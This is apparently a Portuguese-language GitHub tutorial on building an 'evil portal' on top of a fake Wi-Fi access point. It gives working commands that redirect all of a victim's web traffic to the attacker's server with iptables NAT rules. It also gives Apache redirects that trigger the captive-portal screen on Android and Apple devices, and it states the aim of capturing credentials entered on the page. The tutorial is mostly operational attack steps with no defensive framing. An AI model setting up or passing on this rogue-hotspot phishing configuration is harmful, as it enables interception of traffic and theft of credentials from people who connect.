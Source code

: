 
Para melhor aproveitamento é recomendado aprender a criar um AP usando o tutoial da  [Tecnica-FakeAP](https://github.com/them3x/tutoriais/blob/main/Tecnica-FakeAP.md)

#### Tecnica Evil PORTAL

Antes de mais nada vamos precisar configurar nosso servidor WEB
```
apt install apache2
```
Agora podemos criar e configurar nossa pagina que sera exibida no navegador do cliente sempre que gerar qualquer trafego HTTP/HTTPS<br><br>
Você pode instalar o PHP para ser capaz de criar uma pagina WEB mais elaborada para capturar credenciais dos inputs

```
nano /var/www/html/index.html
<h1> PAGINA WEB EXEMPLO</h1>
```
Uma vez configurado nossa pagina WEB e nosso [Fake AP](https://github.com/them3x/tutoriais/blob/main/Tecnica-FakeAP.md)
 usando hostapd, vamos analizar nossa interface de rede para descobrir nosso endereço IP

```
root@debian:~# ifconfig

wlxaca21394a7b7: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.10.1  netmask 255.255.255.0  broadcast 0.0.0.0
        ether 72:81:8c:52:b5:29  txqueuelen 1000  (Ethernet)
        RX packets 6384  bytes 1296162 (1.2 MiB)
        RX errors 0  dropped 24  overruns 0  frame 0
        TX packets 12401  bytes 8935299 (8.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

Tudo que precisamos fazer para evoluir nosso fakeAP para um Evil portal é redirecionar todo trafego HTTP/HTTPS para nosso servidor WEP
```
iptables -t nat -A PREROUTING -i wlxaca21394a7b7 -p tcp --dport 80 -j DNAT --to-destination 192.168.10.1:80
iptables -t nat -A PREROUTING -i wlxaca21394a7b7 -p tcp --dport 443 -j DNAT --to-destination 192.168.10.1:80
```
Altere o IP para o IP correspondente da sua interface
<br><br>
Uma vez configurado o redirecionamento, vamos configurar nosso servidor apache para que os dispositivos quando conectados "detectem" a necessidade de uma "autenticação"
```
nano /etc/apache2/sites-available/000-default.conf
```
Vamos adicionar as seguintes linhas em nosso VirtualHost
```
<VirtualHost *:80>
        # Redirecionamento para Android
        Redirect "/generate_204" http://192.168.10.1/index.html

        # Redirecionamento para dispositivos Apple
        Redirect "/hotspot-detect.html" http://192.168.10.1/index.html

        # Configuração de ErrorDocument como fallback
        ErrorDocument 404 /index.html

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```
Agora vamos reiniciar o apache e o nosso servidor AP

```
systemctl restart hostapd
systemctl restart apache2
```
Agora nosso "captive portal" ja deveria estar funcionando corretamente.
